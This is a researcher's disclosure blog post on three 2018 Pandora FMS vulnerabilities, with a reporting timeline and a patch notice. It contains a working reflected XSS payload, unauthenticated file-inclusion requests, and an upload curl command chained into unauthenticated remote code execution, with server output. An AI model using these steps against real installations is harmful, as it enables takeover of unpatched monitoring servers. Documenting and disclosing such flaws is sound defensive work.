



Recently I was looking for a server monitoring service, and finally I came against [Pandora FMS](https://pandorafms.com/), a nice looking software with Dockered versions, perfect for my deploy.

Looking at the community, it feels active with frequently updates and pushes to the dev branch, so it was an option to give it a try.

The source code of the open source version is available on [github](https://github.com/pandorafms/pandorafms)

## Installing the last version

The installation process is very easy with docker, the only thing you need to do is:

```bash
docker run --name pandora-mysql-latest \
	-e MYSQL_ROOT_PASSWORD=AVeryStrongRootPassword \
	-e MYSQL_DATABASE=pandora -e MYSQL_USER=pandora \
	-e MYSQL_PASSWORD=pandora \
	-d pandorafms/pandorafms-mysql:latest
```

and once the database is running, pull and start the Pandora console and attach it to the database:

```bash
docker run -p 80:80 -p 8022:8022 \
	-p 8023:8023 --link pandora-mysql-latest:mysql\
	-d pandorafms/pandorafms:7
```

And this is all, just point your browser to `http://localhost/pandora_console/` and login with the default credentials `admin:pandora`.

The next thing I did was to create a new user without privileges to test the security of the platform.

## Welcome SQL error

The first thing we can find is a nice SQL error at the welcome screen of the platform:



This error appears only if the created user doesn't belongs to any group, so I proceeded to assign the user to the lowest permission profile, `operator (read)`. Once added this error disappears.

For the test I'll proceed without an assigned profile to test the platform with the lowest possible privileges.

On this version multiple SQLi(s) have been fixed so as multiple XSS(s).

## XSS on parameter `refr` _(CVE-2018-11223)_

The application uses a parameter to set a refresh rate, this parameter is inserted directly without sanitizing it into a `parseInt` javascript function. With a crafted request a user could execute untrusted code on the client side:

The original query looks like

```+
http://127.0.0.1/pandora_console/index.php?sec=estado&sec2=operation/agentes/estado_agente&refr=42
```

And the `42` will be inserted into the code as shown in the next snippet

```javascript
refr_time = parseInt("42");
if (isNaN(refr_time)) {
	refr_time = 0;
}
```

Now, the crafted parameter

```:
http://127.0.0.1/pandora_console/index.php?sec=estado&sec2=operation/agentes/estado_agente&refr=42%22);alert(document.cookie);eval(a=%22foo
```

And the reflected the query string in the code:

```javascript
refr_time = parseInt("42");alert(document.cookie);eval(a="foo");
if (isNaN(refr_time)) {
	refr_time = 0;
}
```



Obviously, the cookie is not  secure.

## Unauthenticated LFI of php files _(CVE-2018-11222)_

There is a php file that has a parameter used to call other system files, the only requirement is that the called file must end with `.php`.

Calling some file that we know that exists on the system with

```
GET /pandora_console/ajax.php?page=include/config.php
```

Note that this call is unauthenticated!

This will return a nice error saying that the requested file is not available, note the extra `.php` appended to the error message

```
<br /><b class="error">Sorry! I can't find the page include/config.php.php!</b>
```

Avoiding the `.php` extension on the `page` param, the server does return a nice 200 code with a blank site, meaning that the server is executing the called php file.

There are many promising system files, one of them is `get_file`

```=
GET /pandora_console/ajax.php?page=include/get_file HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Returns:

```=
HTTP/1.1 200 OK
Date: Mon, 14 May 2018 10:57:35 GMT
Server: Apache/2.2.15 (CentOS)
X-Powered-By: PHP/5.3.3
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Set-Cookie: PHPSESSID=n8kmpsam90kcgc35dsvvkve981; expires=Mon, 14-May-2018 12:27:35 GMT; path=/
Content-Length: 178
Connection: close
Content-Type: text/html; charset=UTF-8

<h3 style='background:url("../images/err.png") no-repeat scroll 0 0 transparent; padding:4px 1px 6px 30px; color:#CC0000;'>Security error. Please contact your administrator.</h3>
```

In this case we are not authorized to use the `get_file` functionality, [reviewing the code](https://github.com/pandorafms/pandorafms/blob/develop/pandora_console/include/get_file.php) you can find that this call needs to be authenticated with the DB admin password, on some kind weird way.

## Unauthenticated upload of untrusted code _(CVE-2018-11221)_

Another interesting call is the `update_manager.ajax.php`, this one seems to be used to upload Pandora plugins, this method allows only the upload of `.oum` files, these files are simple zipped folders without requiring some special structure or content.

With this in mind, we could craft our own plugin creating a folder with a php inside and zip it:

**plugin.php**
```php
<?php
echo "Pwned!\n";
echo 'Current PHP version: ' . phpversion() . "\n";
?>
```

**zipping our bundle**
```bash
> zip -r -9 plugin.oum plugin
  adding: plugin/ (stored 0%)
  adding: plugin/phpinfo.php (deflated 15%)
```

To upload the plugin, we must POST it with a multipart form, the next call can be used to upload the file without permissions on the system

```bash
curl 'http://127.0.0.1/pandora_console/ajax.php?page=include/ajax/update_manager.ajax&upload_file=true'\
    -H 'Host: 127.0.0.1'\
    -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0'\
    -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8'\
    -H 'Connection: keep-alive'\
    -H 'Upgrade-Insecure-Requests: 1'\
    -X POST\
    -H 'Content-Type: multipart/form-data'\
    -F 'name=upfile'\
    -F "filename=plugin.oum"\
    -F "upfile=@plugin.oum"
```

Once executed, the server will return the full absolute path of the uploaded plugin:

```json
{"status":"success","package":"/tmp/pandora_oum/plugin.oum"}
```

The server once received the plugin decompresses it to the servers temporal folder returned in the response, so absolute path of our `php` file will be `/tmp/pandora_oum/plugin.oum/plugin/phpinfo.php`.

<!--
intitle:"Pandora FMS - the Flexible Monitoring System" 
-->

## The unauthenticated RCE _(CVE-2018-11222 + CVE-2018-11221)_

Binding together the upload and the LFI, will give us a nice RCE in the manner that we can now upload our own code and call it through the LFI

```bash
> curl 'http://127.0.0.1/pandora_console/ajax.php?page=/tmp/pandora_oum/plugin.oum/plugin/phpinfo'
Pwned!
Current PHP version: 5.3.3
```

Remember that the only callable files are the ones terminated in `.php` ones.

<!--
## Found and reported vulnerabilities

* One reflected XSS (CVE-2018-11223)
* Unauthenticated insecure file upload (CVE-2018-11221)
* Unauthenticated Local File Inclusion of `.php` files (CVE-2018-11222)
-->

## Disclosure timeline

* 05/08/2018:
	* Reported the found vulnerabilities to the vendor –XXS, Insecure file upload, LFI–.
	* The vendor requested detailed information.
	* Exact information on how to replicate the attacks where sent to the vendor.
* 05/10/2018:
	* Sent another email with multiple new SQLi vulnerabilities and the way to reproduce them.
	* The vendor requested a report with detailed information.
* 05/14/2018:
	* I answered to the vendor that the information already sent is complete and he where able to reproduce the attacks.
	* The vendor answered that the team is working to fix all the vulnerabilities.
	* Contacted to the spanish national CERT (CCN-CERT) to alert about this vulnerabilities.
* 05/16/2018:
	* I maintained a telephonic meeting with the vendor to solve questions and help with the bugfix.
* 05/30/2018:
	* The vendor pushes out the official patch.
* 06/07/2018:
	* Full disclosure.

## Fix

The fix is available in version 7.23 (v7.0NG.723) according to the vendor. **You should urgently update your Pandora version.**

At the moment of writing this article, the only reference to these important bugs are on the release note "[whats-new-723-EN](https://pandorafms.com/wp-content/uploads/2018/06/whats-new-723-EN.pdf)" without any details nor a single mention to the security researcher.

